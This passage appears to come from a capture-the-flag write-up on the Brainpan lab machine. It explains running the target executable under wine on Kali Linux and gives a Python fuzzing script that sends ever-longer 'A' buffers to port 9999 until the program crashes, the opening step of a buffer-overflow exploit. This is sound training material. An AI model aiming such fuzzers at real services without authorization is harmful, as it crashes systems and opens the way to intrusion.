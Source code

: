 This executable is the same as the one on the port 9999 of the target machine.

In order to run it from our Kali Linux machine, we'll be using `wine`:

![](/assets/img/thm/linux/brainpan/wine.png)

### Step 1: Fuzzing

The program is waiting for password from the user input.

During this first step called "fuzzing", we'll be sending a bunch of characters in order to crash the program. This will potentially reveals a buffer overflow vulnerability.

I used the following script to do so: 

```python
import socket
import time
import sys

buffer = b"A" * 100
target = '127.0.0.1'
port = 9999

while True:
    try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect((target, port))
        s.send((b"                          >> " + buffer))
        s.close()
        time.sleep(1)
        buffer = buffer + b"A" * 100
    except:
        print(f"Fuzzing crashed at {len(buffer)} bytes...")
        sys.exit(1)
```
